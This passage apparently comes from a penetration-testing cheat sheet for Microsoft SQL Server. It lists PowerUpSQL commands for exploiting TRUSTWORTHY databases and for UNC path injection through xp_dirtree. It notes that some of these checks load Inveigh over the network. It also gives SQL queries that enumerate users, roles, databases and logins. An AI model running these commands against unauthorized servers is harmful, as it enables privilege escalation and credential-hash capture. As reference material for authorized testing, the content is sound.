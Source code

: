 ```ps1
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.

```ps1
Invoke-SQLAuditPrivXpDirtree
Invoke-SQLUncPathInjection
Invoke-SQLAuditPrivXpFileexist
```

## Manual SQL Server Queries

### Query Current User & determine if the user is a sysadmin

```sql
select suser_sname()
Select system_user
select is_srvrolemember('sysadmin')
```

### Current Role

```sql
Select user
```

### Current DB

```sql
select db_name()
```

### List all tables

```sql
select table_name from information_schema.tables
```

### List all databases

```sql
select name from master..sysdatabases
```

### All Logins on Server 

```sql
Select * from sys.server_principals where type_desc != 'SERVER_ROLE'
```

### All Database Users for a Database 
